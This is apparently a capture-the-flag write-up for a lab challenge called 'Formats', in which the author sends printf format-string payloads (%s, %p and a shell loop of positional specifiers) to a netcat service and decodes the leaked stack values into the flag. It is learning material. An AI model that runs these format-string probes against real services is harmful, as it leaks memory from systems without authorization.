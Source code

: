 # Formats — CTFkom

I connected to the service with netcat:

```
nc 10.212.172.46 4547
```

It printed:

```
welcome to my chamber of reflection, type something. (type 'q' to quit)
in:
```

The first thing I tried was `%s` format specifiers:

```
in: %1$s.%2$s.%3$s.%4$s.%5$s.%6$s.%7$s.%8$s.%9$s.%10$s
out: .(null).H=.
```

Then I tried `%p` to leak stack values:

```
in: %1$p.%2$p.%3$p.%4$p.%5$p.%6$p.%7$p.%8$p.%9$p.%10$p
out: 0x7fff66ed0cd0.(nil).0x7f09bb6dc887.
```

I entered the same `%p` pattern again and got:

```
in: out: 0x5.(nil).0x2435252e70243425.
in: out: 0x2e702439252e70.0x347b6d6f6b465443.0x7972347237316272.
in: out: 0x775f35643433725f
```

From this I noticed `0x347b6d6f6b465443`. I copied it into CyberChef, decoded *From Hex → To ASCII*, but the output looked backwards. After reversing the byte order in CyberChef it became `CTFkom{4`, which looked like the start of the flag. Doing the same for the other values gave me `rb17r4ry` and `_r34d5_w`.

To see more stack values I ran a bigger loop:

```
{ for i in $(seq 1 120); do printf '%%%d$p.' "$i"; done; printf '\n'; } | nc 10.212.172.46 4547
```

The output showed additional chunks:

```
in: out: 0x775f35643433725f.0x6e3172705f683731.%12
in: out: $p.(nil).(nil).
in: out: 8: 0x347b6d6f6b465443
in: out: 9: 0x7972347237316272
in: out: 10: 0x775f35643433725f
in: out: 11: 0x6e3172705f683731
in: out: 12: 0x7d3f3f6637
```

I copied these values into CyberChef and flipped the byte order for each:

- `0x347b6d6f6b465443` → `CTFkom{4`
- `0x7972347237316272` → `rb17r4ry`
- `0x775f35643433725f` → `_r34d5_w`
- `0x6e3172705f683731` → `17h_pr1n`
- `0x7d3f3f6637` → `7f??}`

Putting them together gave me the full flag:

```
CTFkom{4rb17r4ry_r34d5_w17h_pr1n7f??}
```